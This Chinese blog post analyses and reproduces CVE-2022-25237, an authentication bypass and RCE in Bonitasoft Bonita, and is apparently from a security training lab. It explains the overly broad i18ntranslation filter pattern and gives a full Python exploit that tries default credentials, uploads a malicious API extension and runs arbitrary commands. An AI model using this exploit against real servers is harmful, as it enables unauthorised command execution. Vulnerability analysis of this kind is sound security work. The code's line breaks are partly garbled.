






# Bonitasoft 认证绕过和 RCE 漏洞分析及复现（CVE-2022-25237） - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/17040748.html`](https://www.cnblogs.com/hetianlab/p/17040748.html)

## 一、漏洞原理

### 漏洞简述

Bonitasoft 是一个业务自动化平台，可以更轻松地在业务流程中构建、部署和管理自动化应用程序；

Bonita 是一个用于业务流程自动化和优化的开源和可扩展平台。

Bonita Web 2021.2 版本受到认证绕过影响，因为其 API 认证过滤器的过滤模式过于宽泛。

通过添加恶意构造的字符串到 API URL，普通用户可以访问需特权的 API 端点。这可能导致特权 API 操作将恶意代码添加至服务器，从而造成 RCE 攻击。

### 漏洞影响范围

**供应商**：Bonitasoft

**产品**：Bonita Platform

**确认受影响版本**：< 2022.1-u0

**修复版本**：/

**社区版**：< 2022.1-u0 (7.14.0)

**订购版**：< 2022.1-u0 (7.14.0) 、2021.2-u4 (7.13.4) 、2021.1-0307 (7.12.11) 、7.11.7

### 漏洞分析

本漏洞的漏洞点来自系统中 web.xml 文件，该文件用于定义系统应用的路由和如何处理路由的认证及授权。以社区版 2021.2 u0 为例，XML 配置文件路径为 bonita\BonitaCommunity-2021.2-u0\server\webapps\bonita\WEB-INF\web.xml。

按照经验来说，这里会是认证绕过易产生之处。确切地说，web.xml 中的过滤器很有效地决定了访问特定路由是否应该进行过滤。下图认证过滤器定义赋值参数 excludePatterns，值为 i18ntranslation。之后将参数传递给 2 个不同过滤器类：RestAPIAuthorizationFilter, TokenValidatorFilter。


同时上述 2 个类 RestAPIAuthorizationFilter, TokenValidatorFilter，存在同一父类 AbstractAuthorizationFilter。

分析这些过滤器都对 AbstractAuthorizationFilter 进行扩展处理，其中 doFilter 方法我们展开说明。

路径为 org.bonitasoft.console.common.server.login.filter.AbstractAuthorizationFilter#doFilter。

通过 sessionIsNotNeeded 方法进行检查，如果返回结果为真，则继续代码流程。

（checkValidCondition 方法主要对 doFilter 的两个参数 httpRequest、httpResponse 进行检查，可能用于同源策略检查，不详细叙述）



下图可以看到该方法主要是参照 excludePatterns 对请求 URL 路径字段进行检查。如果该路径存在该模式，会绕过认证过滤器，从而成功访问资源。

开始定义状态值 isMatched，默认值为 false。开始进行空值检查，对 excludePatterns 进行分隔处理。

循环进行检查，如果 requestURL 包含 excludePatterns，则状态值 isMatched 变为 true。跳出循环。



在前面 XML 文件中参数 excludePattern 的值为 i18ntranslation。这意味着 URL 路径如果包含 i18ntranslation，则会允许认证绕过。

根据代码特征测试，“/i18ntranslation/../“ 或 ”;i18ntranslation“ 可以进行绕过。

【----帮助网安学习，以下所有学习资料免费领！加 vx：yj009991，备注 “博客园” 获取！】

　① 网安学习成长路径思维导图
　② 60+网安经典常用工具包
　③ 100+SRC 漏洞分析报告
　④ 150+网安攻防实战技术电子书
　⑤ 最权威 CISSP 认证考试指南+题库
　⑥ 超 1800 页 CTF 实战技巧手册
　⑦ 最新网安大厂面试题合集（含答案）
　⑧ APP 客户端安全检测指南（安卓+IOS）

另外，远程命令执行（RCE）该漏洞主要是以上传恶意文件作为方式，上传接口同样定义在 web.xml，为/API/pageUpload。



getPagePermissions 方法在文件处理过程需要 session，该 session 就是从 apiSession 获取。


根据代码，若未登录状况，apisession 无法赋值，该方法会抛出异常。

从攻击角度，我们需要通过非特权下普通用户进行会话，使得 apisession 正常赋值，进一步实现远程命令执行。

## 二、漏洞复现实战

### 环境搭建

1.  docker 镜像：

[bonita - Official Image | Docker Hub](https://hub.docker.com/_/bonita)

1.  vulfocus：

bonita 镜像

### 漏洞复现

首先以超级管理员身份进入 bonita，创建用户功能





创建普通用户



之后根据 POC 进行复现

POC：

```
import requests
import sys
​
​ class exploit: try:
        session = requests.session()
        bonita_user = sys.argv[1]
        bonita_password = sys.argv[2]
        target_path = sys.argv[3]
        cmd = sys.argv[4]
        tempPath = "" extension_id = "" bonita_default_user = "install" bonita_default_password = "install" platform_default_user = "platformAdmin" platform_default_password = "platform" except:
        print(f"Usage: python3 {sys.argv[0]} <username> <password> http://localhost:8080/bonita 'cat /etc/passwd'")
        exit()
​
def try_default_logins():
    req_url = f"{exploit.target_path}/loginservice" req_cookies = {"x": "x"}
    req_headers = {"Content-Type": "application/x-www-form-urlencoded"}
    req_data = {"username": exploit.bonita_default_user, "password": exploit.bonita_default_password, "_l": "en"}
    r = exploit.session.post(req_url, headers=req_headers, cookies=req_cookies, data=req_data) if r.status_code == 401: return False
        # This does not seem to work when authenticating as platformAdmin, maybe it can though.
    #     req_url = f"{exploit.target_path}/platformloginservice" #     req_cookies = {"x": "x"}
    #     req_headers = {"Content-Type": "application/x-www-form-urlencoded"}
    #     req_data = {"username": exploit.platform_default_user, "password": exploit.platform_default_password, "_l": "en"}
    #     r = exploit.session.post(req_url, headers=req_headers, cookies=req_cookies, data=req_data)
    # if r.status_code == 200:
    #         print(f"[+] Found default creds: {exploit.platform_default_user}:{exploit.platform_default_password}")
    # return True else:
        print(f"[+] Found default creds: {exploit.bonita_default_user}:{exploit.bonita_default_password}") return True
​
​
​
def login():
    req_url = f"{exploit.target_path}/loginservice" req_cookies = {"x": "x"}
    req_headers = {"Content-Type": "application/x-www-form-urlencoded"}
    req_data = {"username": exploit.bonita_user, "password": exploit.bonita_password, "_l": "en"}
    r = exploit.session.post(req_url, headers=req_headers, cookies=req_cookies, data=req_data) if r.status_code == 401:
        print("[!] Could not get a valid session using those credentials.")
        exit() else:
        print(f"[+] Authenticated with {exploit.bonita_user}:{exploit.bonita_password}")
​
def upload_api_extension():
    req_url = f"{exploit.target_path}/API/pageUpload;i18ntranslation?action=add" files=[
    ("file",("rce_api_extension.zip",open("rce_api_extension.zip",'rb'),'application/octet-stream'))
    ]
    r = exploit.session.post(req_url, files=files)
    exploit.tempPath = r.json()["tempPath"]
​
def activate_api_extension():
    req_url = f"{exploit.target_path}/API/portal/page/;i18ntranslation" req_headers = {"Content-Type": "application/json;charset=UTF-8"}
    req_json={"contentName": "rce_api_extension.zip", "pageZip": exploit.tempPath}
    r = exploit.session.post(req_url, headers=req_headers, json=req_json)
    exploit.extension_id = r.json()["id"]
​
def delete_api_extension():
    req_url = f"{exploit.target_path}/API/portal/page/{exploit.extension_id};i18ntranslation" exploit.session.delete(req_url)
​
def run_cmd():
    req_url = f"{exploit.target_path}/API/extension/rce?p=0&c=1&cmd={exploit.cmd}" r = exploit.session.get(req_url)
    print(r.json()["out"])
​ if not try_default_logins():
    print("[!] Did not find default creds, trying supplied credentials.")
    login()
upload_api_extension()
activate_api_extension() try:
    run_cmd()
except:
    delete_api_extension()
delete_api_extension()
```

执行 POC


### 漏洞修复

建议更新至 2022.1-u0 以上版本

## 结束语

本文主要介绍了 CVE-2022-25237 Bonitasoft 认证绕过和 RCE 漏洞的原理分析及复现过程，漏洞主要利用构造恶意字段添加至 API URL，绕过过滤器进行访问资源，从而造成认证绕过，进一步可远程命令执行。

根据漏洞原理可以参照的是，在安全控制方面，左移安全中安全开发过程及时开展代码审计等测试工作，避免上述漏洞涉及的问题。

******更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******